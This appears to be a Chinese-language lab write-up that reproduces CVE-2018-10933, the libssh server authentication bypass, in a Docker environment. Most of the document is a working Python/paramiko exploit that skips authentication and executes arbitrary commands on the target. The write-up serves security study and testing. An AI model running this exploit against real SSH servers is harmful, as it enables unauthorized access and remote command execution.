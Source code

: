 # libssh 服务端权限认证绕过漏洞（CVE-2018-10933）

libssh是一个提供ssh相关接口的开源库，包含服务端、客户端等。其服务端代码中存在一处逻辑错误，攻击者可以在认证成功前发送`MSG_USERAUTH_SUCCESS`消息，绕过认证过程，未授权访问目标SSH服务器。

参考资料：

- https://www.libssh.org/security/advisories/CVE-2018-10933.txt
- https://www.seebug.org/vuldb/ssvid-97614

## 漏洞环境

执行如下命令启动存在漏洞的环境：

```
docker-compose up -d
```

环境启动后，我们可以连接`your-ip:2222`端口（账号密码：`myuser:mypassword`），这是一个合法的ssh流程：

![](1.png)

## 漏洞复现

参考 https://www.seebug.org/vuldb/ssvid-97614 中给出的POC，我们编写一个简单的漏洞复现脚本：

```python
#!/usr/bin/env python3
import sys
import paramiko
import socket
import logging

logging.basicConfig(stream=sys.stdout, level=logging.DEBUG)
bufsize = 2048


def execute(hostname, port, command):
    sock = socket.socket()
    try:
        sock.connect((hostname, int(port)))

        message = paramiko.message.Message()
        transport = paramiko.transport.Transport(sock)
        transport.start_client()

        message.add_byte(paramiko.common.cMSG_USERAUTH_SUCCESS)
        transport._send_message(message)

        client = transport.open_session(timeout=10)
        client.exec_command(command)

        # stdin = client.makefile("wb", bufsize)
        stdout = client.makefile("rb", bufsize)
        stderr = client.makefile_stderr("rb", bufsize)

        output = stdout.read()
        error = stderr.read()

        stdout.close()
        stderr.close()

        return (output+error).decode()
    except paramiko.SSHException as e:
        logging.exception(e)
        logging.debug("TCPForwarding disabled on remote server can't connect. Not Vulnerable")
    except socket.error:
        logging.debug("Unable to connect.")

    return None


if __name__ == '__main__':
    print(execute(sys.argv[1], sys.argv[2], sys.argv[3]))

```

使用python3执行，即可在目标服务器上执行任意命令：

![](2.png)
